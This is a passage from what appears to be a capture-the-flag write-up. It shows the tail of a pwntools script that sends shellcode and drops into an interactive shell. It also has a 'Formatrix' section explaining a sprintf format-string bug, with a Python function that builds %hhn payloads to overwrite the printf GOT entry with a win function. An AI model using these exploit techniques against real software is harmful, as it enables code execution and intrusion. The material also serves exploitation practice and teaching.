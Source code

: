 ```python
    n_filler = 0x54 - len(shellcode) - 1
    payload = filler * n_filler + shellcode
    log.info(f"Sending payload of length {len(payload)}: {payload}")
    P.sendline(payload)
    P.recvuntil(b'offset ', drop=True)
    STACK_POINTER = int(P.recvline()[:-1], 16)
    log.info("Stack pointer: %x" % (STACK_POINTER))
    
def exploit():
    connect_binary()
    enter_password()
    set_name()
    P.interactive()

```


Formatrix
===========================

General overview of problems faced
-------------------------------------
Unclear why printf does not redirect to win function.

List of vulnerabilities
--------------------
-  The first argument of sprintf is used as both the format string and the argument to sprintf. User controls buffer
and can inject arbitary format specifiers to leak stack information and overwrite memory addresses.

Steps to exploit
------------------
- Collect printf GOT address from decompiler and construct payload using similar format to MEME to overwrite GOT address to the address of WIN function.

Script/Command used
------------------
```python

def build_format_string(target, goal, start_byte=1, max_write=8):
    WRAP = 0x100

    bytes_list = [(goal >> (8 * i)) & 0xff for i in range(max_write)]
    writes = [(byte_value, index) for index, byte_value in enumerate(bytes_list)]
    writes.sort(key=lambda x: x[0])

    payload = b''
    written = 0 

    for idx, (byte_value, i) in enumerate(writes):
        to_write = (byte_value - written) % WRAP
        if to_write > 0:
            payload += f"%{to_write}c".encode()
            written += to_write
        param_index = start_byte + idx
        payload += f"%{param_index}$hhn".encode()

    padding = b'A' * ((8 - (len(payload) % 8)) % 8)
    payload += padding

    for _, i in writes:
        payload += p64(target + i)

    return payload

```